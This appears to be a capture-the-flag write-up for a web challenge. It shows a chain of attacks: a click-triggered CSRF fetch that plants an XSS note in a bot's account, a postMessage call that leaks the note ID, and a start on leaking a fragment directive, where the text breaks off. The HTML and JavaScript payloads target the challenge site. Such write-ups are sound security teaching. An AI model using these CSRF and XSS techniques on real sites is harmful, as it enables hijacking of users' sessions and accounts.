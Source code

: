 #### 1. CSRF allows to create a note containing the XSS payload in the bot account

The `secret` cookie is set as `Samesite=None, Secure`. So it can be sent cross-origin but only for GET requests and **top-level** POST requests. For background requests CORS has to be configured due to recent [third party cookie policies](https://developer.mozilla.org/en-US/docs/Web/Privacy/Guides/Third-party_cookies#how_do_browsers_handle_third-party_cookies).

| Request Type      | Preflight Required | Credential Transmission           |
| ----------------- | ------------------ | --------------------------------- |
| GET/HEAD (Simple) | No                 | Immediate with credentials        |
| Top-level POST    | No                 | Immediate with credentials        |
| background POST   | Yes                | Conditional on preflight response |

This makes CSRF attacks difficult in this case because to create a note we need to send a POST request with an `application/json` or **empty** content-type.

I found that when there is user interaction: for example when an user clicks a button that sends a background request `<button onclick="fetch(...);">send</button>`, cookies are included even for POST requests without the need of preflight request, if the content-type is not set.

Knowing that, I can make the bot click on a button that creates a malicious note in his account:
```html
<button onclick='fetch("https://challenge-0325.intigriti.io/api/post", {method: "POST",mode: "no-cors",credentials: "include",body:`new Blob[JSON.stringify({"title": "a2","content": ["a"],"use_password": "false"})]});' style="width: 100vw; height: 100vh;">send</button>
```

Now that the malicious note has been created I need a way to know its ID:

#### 2. Retrieve the malicious noteId by exploiting the postmessage vulnerability
just send a postmessage with empty password and read the noteId from the response.
```js
window.addEventListener('message', e => {
  if (e.data.noteId) 
		// smth
});
win = window.open('https://challenge-0325.intigriti.io/protected-note', 'x');
win.postMessage({type:"submitPassword",password:""}, "*");
```

#### 3. Trigger the XSS by redirecting the bot to the malicious note
`window.open('http://chall/note/ID)`

#### 4. Leak the fragment directive
This is the most challenging part, as it is not accessible to javascript, and fetch doesn't allow access to redirects response headers (even if same-origin).
```js
res = await fetch("/note/889a756e-d8b7-42b6-8011-c0b12b636c12", {redirect:"manual"}); console.log(res)  
// Response { type: "opaqueredirect", url: "https://challenge-0325.intigriti.io/note/889a756e-d8b7-42b6-8011-c0b12b636c12", redirected: false, status: 0, ok: false, statusText: "", headers: Headers(0),
```
